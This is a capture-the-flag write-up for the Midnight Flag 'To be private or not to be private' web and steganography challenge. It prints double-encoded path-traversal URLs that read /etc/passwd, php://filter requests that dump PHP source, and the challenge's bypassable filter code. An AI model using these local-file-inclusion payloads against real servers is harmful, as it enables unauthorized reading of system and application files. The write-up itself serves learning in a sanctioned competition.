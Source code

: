 # CTF Midnight Flag : INFEKTION

## Web / Steganography

### To be private or not to be private 

**Difficulty:** Easy

***

The challenge statement gives us the following site: `https://cloud.midnightflag.fr/index.php`

By manipulating the URL, I quickly realize that a LFI vulnerability is exploitable.
So I start to inject a payload with double encoding in order to get the content of the file **/etc/passwd** :
`https://cloud.midnightflag.fr/index.php?categorie=..%252f..%252f..%252fetc%252fpasswd`

I have the content of the file in return but I don't see any exploitable user or service:

![cloud1](https://user-images.githubusercontent.com/49941629/165366730-29a98123-13f2-47a2-ad28-a2bf67c8165f.png)

So I decide to download the content of the index.php file with the PHP wrappers:
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=index.php`

With this request, I get the content of the index.php file in base64 directly on the web page.

After decoding, I see the following PHP code corresponding to the LFI filters applied (bypassing the function via double encoding):
```php
    <?php
    function lfi_filter($value)
    {
        $omit_words = array('..', '../', '/');
        rsort($omit_words);
        $new_string = str_replace($omit_words, '', $value);
        return $new_string;
    }
    
    if (isset($_GET["category"])) {
      $categorie = lfi_filter($_GET["category"]);
      include urldecode($categorie);
    }else {
      include 'home.php';
    }
    ?>
```
From this moment, I look for a little moment before continuing the challenge because the recovered PHP code gives us no additional information.
Since fuzzing is not allowed on this challenge, it's time for **#guessing**!

Looking at the title of the challenge and in adequacy with the structure of the site, after several attempts I try to join the page private.php: `https://cloud.midnightflag.fr/index.php?categorie=private.php` and I have a return!

So I get the source code of this page with the same payload as before:
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=private.php`

I get the following source code with an interesting ASCII comment:
```html
<section>
      <td><img width="50%" class="center" src="categorie\Why-So-Sad-Funny-Clown-Face-Picture.jpg" alt="personal_attack.jpg"></td>
      <!--don't leak (\x70\x65\x72\x73\x6F\x6E\x61\x6C) -->
</section>
```

After conversion, I get the following value: **personal**

I suppose that the site has a personal category, so I go to the URL `https://cloud.midnightflag.fr/index.php?categorie=personal.php` which contains an audio recording in wav format.

After downloading the audio recording, I open it with the Audacity software in order to analyze the content.

The audio generated by the recording leads me to believe that an information is present in the spectrogram :

https://user-images.githubusercontent.com/49941629/165365721-bf3fb966-fcdc-4e0e-a0d3-49bad9cf47e8.mp4

After inversion of the audio track and analysis of the spectrum, I recover the following information:

![cloud2](https://user-images.githubusercontent.com/49941629/165366030-8d6061f3-34d3-4f9b-8bfd-6a262bef336e.png)

Flag: MCTF{H1d3_Y0uR_S3cRe7s}
